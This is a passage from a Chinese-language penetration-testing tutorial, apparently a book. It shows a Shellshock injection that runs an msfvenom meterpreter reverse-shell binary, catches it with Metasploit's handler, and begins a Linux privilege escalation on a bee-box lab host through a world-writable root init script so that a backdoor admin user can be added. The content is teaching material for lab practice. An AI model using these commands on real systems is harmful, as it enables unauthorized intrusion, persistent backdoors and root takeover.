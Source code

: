 1.  在服务器中存在文件后，我们再次利用 Shellshock 来执行它：`() { :;}; echo "Vulnerable:" $(/tmp/cute_dolphin.bin")`。

1.  如果一切顺利，我们应该能够在 Metasploit 的监听器中看到一个连接，如下所示：

![](assets/12914c45-d1cc-4f15-8e7f-be0b06c2eebb.png)

1.  一旦会话建立，我们可以使用 `help` 命令查看 meterpreter 的功能，并开始在受损服务器上运行命令：

![](assets/9d5c4b08-eb31-454f-99d2-401b10dbd301.png)

# 它是如何工作的...

`msfvenom` 帮助我们从 Metasploit 广泛的有效载荷列表中创建有效载荷，并将其集成到多种编程语言的源代码中，或者创建脚本和可执行文件，正如我们在本教程中所做的那样。我们在这里使用的参数是：要使用的有效载荷（`linux/x86/meterpreter/reverse_tcp`），回连的主机和端口（`lhost` 和 `lport`），以及输出格式 `(-f elf)`，将标准输出重定向到文件并保存为 `cute_dolphin.bin`。

Metasploit 的 `exploit/multi/handler` 模块是一个有效载荷处理程序。这意味着它并不实际执行任何攻击；它仅仅处理与在受损主机上执行的有效载荷的连接。在这种情况下，我们使用它来监听连接，并在连接建立后，它运行了 meterpreter 有效载荷。

Meterpreter 是 Metasploit 版本的超级 Shell。尽管 Linux 上的 meterpreter 比 Windows 版本更有限，后者包含了嗅探受害者网络和执行权限提升与密码提取的模块，但我们仍然可以将其作为一个支点，访问受害者的本地网络，或者通过使用本地和后期利用的 Metasploit 模块进一步攻击主机。

# Linux 上的权限提升

对于某些渗透测试项目，获取一个 Web Shell 可能在攻击和展示漏洞影响方面已经足够。在其他情况下，我们可能需要进一步提升在该服务器上的权限，或者利用该权限转向网络中的其他主机。

在这第一篇关于权限提升的教程中，我们将借鉴之前的教程，其中我们上传并执行了一个反向 Shell 到攻击机器，并使用 Kali Linux 中的工具在服务器上获取管理员访问权限。

# 准备工作

建议在开始本教程之前先完成前两个教程，*利用 Shellshock 执行命令* 和 *使用 Metasploit 创建并捕获反向 Shell*，尽管从任何受限的 Shell 在远程服务器上也能实现相同的结果。

# 如何操作...

我们在一台受损服务器上运行了一个 meterpreter Shell——更具体地说，是在 IP 为 `192.168.56.12` 的 bee-box 上。我们从找到提升权限的方法开始：

1.  Kali Linux包含一个名为`unix-privesc-check`的工具；它检查系统中可能允许我们提升权限的配置漏洞。从meterpreter shell中，我们可以使用`upload`命令将其上传到服务器。在meterpreter会话中，输入`upload /usr/bin/unix-privesc-check /tmp/`命令。

1.  一旦文件上传完成，打开系统shell（在meterpreter中使用`shell`命令），并运行脚本`/tmp/unix-privesc-check standard`。以下截图展示了这一过程：

![](assets/2c4da87f-b3a8-4e7b-b00c-b8eb2f5ae8c7.png)

1.  脚本会显示一长串结果，但我们关注的是在开头显示`WARNING`的那一项。以下截图中，我们可以看到有一个脚本(`/etc/init.d/bwapp_movie_search`)，它在启动时由root用户运行，并且任何人都可以写入它（`World write is set`）：

![](assets/5b4b8a21-716e-4044-8409-7a52235a93e7.png)

1.  我们将利用这个文件让root用户在启动时执行命令。我们会让它创建一个具有管理员权限的用户，这样我们就可以随时通过SSH连接到服务器。为了实现这一点，我们需要检查系统中已有的用户组，以便了解哪些具有特权访问权限。在系统shell中，运行`cat /etc/group|sort -u`命令。你会看到一些有趣的组名，比如`adm`、`admin`和`root`。

